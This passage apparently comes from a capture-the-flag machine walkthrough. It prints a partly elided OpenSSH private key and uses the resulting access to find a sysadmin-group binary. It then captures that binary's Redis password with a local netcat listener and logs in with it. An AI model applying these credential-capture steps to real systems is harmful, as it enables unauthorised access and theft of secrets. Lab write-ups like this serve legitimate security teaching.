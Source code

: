 ```bash
4O9BnWhVoYJvKhHxVyxF1G50jJIgeyWwt3wnwwhlGJqfUIokAtMYhXmkm72RcAODQmaLsw
FtVv2V3utC2gF1QJRCG7hjlXDa1X4fl8lwxbxMq3uQVjQEUEmq1eQhl5OpLrI4m+VO73Sl
...............................SNIP...................................
2AwUg3cT7kmKUdAvBHsj20uwv8a1ezFQNN5vxTnQPQLTiZoUIR7FDTOkQ0W3hfvjznKXTM
wictz9NZYWpEZQAuSX2QJgBJc1WNOtrgJscNauv7MOtZYclqKJShDd/NHUGPnNasHiPjtN
CRr7thGmZ6G9yEnXKkjZJ1Neh5Gfx31fQBaBd4XyVFsvUSphjNAAAAwQD4Yntc2zAbNSt6
GhNb4pHYwMTPwV4DoXDk+wIKmU7qs94cn4o33PAA7ClZ3ddVt9FTkqIrIkKQNXLQIVI7EY
Jg2H102ohz1lPWC9aLRFCDFz3bgBKluiS3N2SFbkGiQHZoT93qn612b+VOgX1qGjx1lZ/H
I152QStTwcFPlJ0Wu6YIBcEq4Rc+iFqqQDq0z0MWhOHYvpcsycXk/hIlUhJNpExIs7TUKU
SJyDK0JWt2oKPVhGA62iGGx2+cnGIoROcAAADBAMMvzNfUfamB1hdLrBS/9R+zEoOLUxbE
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

Now as dan we have access to the sysadmin group
```bash
id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

And the only thing it gives access to is this 
```bash
find / -group sysadmin 2> /dev/null
/usr/local/bin/redis_connector_dev
```

That's a C binary, probaly what the other cronjob we observed earlier is triggering through `/root/c.sh`
```
file redis_connector_dev
redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
```

Lets exfiltrate it, and move it to an amd64 machine. Now we could  do some fancy binary reversing, but the filename literally says `redis_connector`, so it's a pretty safe assumption to make, that it will attempt to connect to redis. Lets try just kicking off the binary while listening on the redis port.
```bash
nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59976
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

And sure enough that's the password
```bash
redis-cli
127.0.0.1:6379> info
NOAUTH Authentication required.
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
```
